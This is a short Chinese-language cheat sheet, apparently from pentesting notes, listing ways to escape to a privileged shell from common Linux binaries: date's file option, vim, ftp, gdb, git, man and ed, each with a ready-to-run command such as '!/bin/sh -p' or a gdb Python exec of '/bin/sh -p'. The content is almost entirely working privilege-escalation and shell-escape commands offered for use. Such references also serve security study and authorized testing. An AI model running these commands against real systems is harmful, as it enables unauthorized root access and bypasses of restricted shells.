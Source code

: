 ### date

`date` 是一个用来显示或设置系统时间的命令，但是它也可以用来执行系统命令。

```bash
date -f/--file <filename>

-f, --file=DATEFILE：类似于--date; 一次从DATEFILE处理一行。
```

### Vim

vi, vim, vim.tiny, vim-basic 同样适用

进入 vim 命令行模式，感叹号后面加命令即可执行

```bash
!command
>!whoami
>kali
```

### ftp

```bash
ftp
!/bin/sh -p
```

### gdb

```bash
gdb -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
```

### git

```bash
git help status
!/bin/sh -p
```

### man

```bash
man man
!/bin/sh -p
```

### ed

`ed` 命令是单行纯文本编辑器，它有命令模式（command mode）和输入模式（input mode）两种工作模式。
命令行模式执行命令

```bash
ed
!whoami
kali
```
